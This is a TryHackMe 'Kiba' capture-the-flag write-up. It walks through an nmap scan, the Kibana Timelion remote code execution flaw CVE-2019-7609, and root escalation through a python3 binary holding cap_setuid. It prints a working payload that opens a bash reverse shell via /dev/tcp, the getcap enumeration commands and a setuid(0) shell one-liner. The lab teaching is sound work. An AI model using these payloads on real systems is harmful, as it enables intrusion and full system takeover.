







# TryHackMe kiba [room](https://tryhackme.com/room/kiba) writeup.

Nmap scan (consider that the machine took for me about 5 minutes to fully boot):

>nmap -p- -Sc [target-ip]

While we wait for nmap to finish let's check the default port 80:

Nothing interesting, just one hint "linux capabilities" we'll need them later to privesc.

Nmap shows us multiple ports but the one that we need is 5601, let's check it.
Right now we need to find the kibana version, after exploring the website a bit we can see the version in "management" tab.

With that information we go right into google: after a little bit of research we can find out that Kibana versions before 5.6.15 and 6.6.1 contain an RCE, and in order to exploit that we need to use timelion with a payload and setup a netcat listener.

Payload that i've used:

>.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/IP/PORT 0>&1");process.exit()//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

Don't forget to change the ip and set the port you listen on.
After that press "run" button and click on "canvas" tab.

It actually took me a lot of tries before catching a shell, so if you don't catch it just re-do the same method with a different payload.

The payloads and a more detailed [explanation](https://github.com/mpgn/CVE-2019-7609).

And we're in.

Now we need to escalate. The questions N5-6 provides us a hint, "linux capabilities", in order to search those we can just type:

>getcap -r /

or even better:

>getcap -r / 2>/dev/null

Well... as we can see there's one ".hackmeplease" folder so i guess we'll check that... We can see that we have all needed permission on that file and also a "cap_setuid+ep" that means we can change our UID! Exploiting it is easy, we'll use that file to spawn a shell as root by using python:

>./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

For any questions reach me through THM's discord.
